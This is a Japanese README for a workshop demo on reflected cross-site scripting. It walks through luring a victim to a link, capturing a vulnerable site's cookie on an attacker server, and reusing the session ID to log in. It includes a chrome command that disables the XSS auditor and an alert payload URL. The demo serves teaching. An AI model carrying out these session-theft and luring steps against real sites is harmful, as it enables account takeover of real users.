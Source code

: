 # XSSの初歩的な例と実害

を説明するデモです．

## 状況

XSS (_クロス_ サイト スクリプティング) の性質上，localhostの他にも別サイトが必要でした．

<dl>
  <dt>http://当日教える.com</dt>
  <dd>脆弱性を持ったサイト(以下，脆弱サイト)．ログイン機能がある．</dd>

  <dt>http://localhost:5000</dt>
  <dd>攻撃者の用意したサイト(以下，攻撃者サイト) ．</dd>

  <dt>被害者</dt>
  <dd>脆弱サイトのユーザ．攻撃者に脆弱サイトへログインされてしまう．</dd>
</dl>

## 脆弱サイトをいじってみる

```bash
$ browser http://当日教える.com
```

1. `/` において， `user: sampleuser`, `pass: samplepass` と入力してログイン
1. `/login` にて，「ようこそ，sampleuserさん!!」と表示されることを確認

_攻撃目的: `sampleuser/samplepass` を知らないのに，`sampleuser`としてログインする_

## 攻撃手順

### 攻撃者サイトを準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/ex00_WhatIsXSS
$ carton install  # 大体5分以上かかります・・・・
$ carton exec perl -Ilib script/ex00_whatisxss-server
$ browser http://localhost:5000
```

### 怪しいリンクを踏ませて脆弱サイトのCookieを入手

1. 下記リンクは，攻撃者がTwitterなどにポストする(短縮URLなど使うとなおのこと引っ掛けやすい)
1. 被害者が下記リンクを踏む
1. 脆弱サイトにてXSS攻撃が成立する
1. 攻撃者サイトにリダイレクトされ，攻撃者サイトに脆弱サイトのCookieが表示される(表示されるということは，その文字列を攻撃者サーバに保存することも容易)

```bash
$ google-chrome --disable-xss-auditor "http://localhost:5000/status?uid=%3Cscript%3Ealert(%22hoge%22)%3C/script%3E"
```

_注意: まともなブラウザなら，単純なXSS攻撃は検知して<script>実行を中止する．`--disable-xss-auditor`によってchromeにわざとXSS攻撃に引っかかってもらう．_

### Cookie中のセッションIDを使って脆弱サイトにログイン

1. 攻撃者は先程手にしたセッションIDをコピー
1. 下記のように脆弱サイトにアクセスし，ログインが成立

```bash
$ browser http://当日教える.com/login?sid=[セッションID]
```
